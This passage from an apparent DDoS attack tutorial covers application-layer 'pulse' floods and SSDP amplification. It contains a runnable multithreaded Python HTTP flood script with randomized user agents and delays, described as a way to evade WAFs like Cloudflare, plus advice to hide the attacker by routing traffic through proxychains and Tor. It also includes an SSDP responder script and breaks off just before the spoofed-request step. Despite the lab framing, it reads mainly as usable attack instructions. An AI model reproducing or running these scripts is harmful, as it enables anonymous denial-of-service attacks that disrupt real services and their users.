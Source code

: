 - **Effectiveness**: High. Distributed sources overwhelm basic defenses.
- **Weakness Exploited**: Target’s inability to filter traffic from multiple sources.

### d. Application-Layer Pulse Attacks

- **Concept**: Send intermittent, high-intensity HTTP requests to mimic legitimate traffic, bypassing rate-limiting defenses.
- **Real-World Use**: Used by advanced attackers to evade WAFs (e.g., Cloudflare) by blending with normal traffic.
- **Tool**: Custom Python script with randomized timing and user agents.
  ```python
  import requests
  import random
  import time
  import threading
  target_url = "http://<target_IP>/resource-intensive-page"
  user_agents = [
      "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/91.0.4472.124",
      "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) Safari/605.1.15",
      # Add more
  ]
  def pulse_attack():
      while True:
          headers = {"User-Agent": random.choice(user_agents)}
          try:
              requests.get(target_url, headers=headers, timeout=5)
              print("Sent pulse request")
          except:
              pass
          time.sleep(random.uniform(0.5, 2.0))  # Random delay
  for _ in range(20):  # 20 threads
      threading.Thread(target=pulse_attack).start()
  ```
- **Anonymity**:
  - Route through `proxychains` with Tor:
    ```bash
    proxychains python3 pulse_attack.py
    ```
  - Randomize headers (e.g., `Referer`, `Accept-Language`).
- **Lab Exercise**:
  1. Set up a target VM with a resource-intensive page (e.g., a PHP script with database queries).
  2. Run the pulse attack script.
  3. Monitor target’s Apache logs (`/var/log/apache2/access.log`) and CPU usage.
- **Effectiveness**: High. Stealthy and hard to distinguish from legitimate traffic.
- **Weakness Exploited**: Target’s inability to filter sporadic, legitimate-looking requests.

### e. Protocol Exploitation (e.g., SSDP Amplification)

- **Concept**: Exploit protocols like SSDP (Simple Service Discovery Protocol) on UPnP devices to amplify traffic, similar to DNS/NTP amplification.
- **Real-World Use**: Common in IoT-based attacks due to poorly secured devices.
- **Lab Setup**:
  1. Simulate an SSDP server using a Python script on a target VM:
     ```python
     from socket import *
     sock = socket(AF_INET, SOCK_DGRAM)
     sock.bind(("0.0.0.0", 1900))
     while True:
         data, addr = sock.recvfrom(1024)
         if b"M-SEARCH" in data:
             response = b"HTTP/1.1 200 OK\r\nST: upnp:rootdevice\r\nUSN: uuid:1234\r\n" + b"A" * 1000
             sock.sendto(response, addr)
     ```
  2. Send spoofed SSDP requests with Scapy: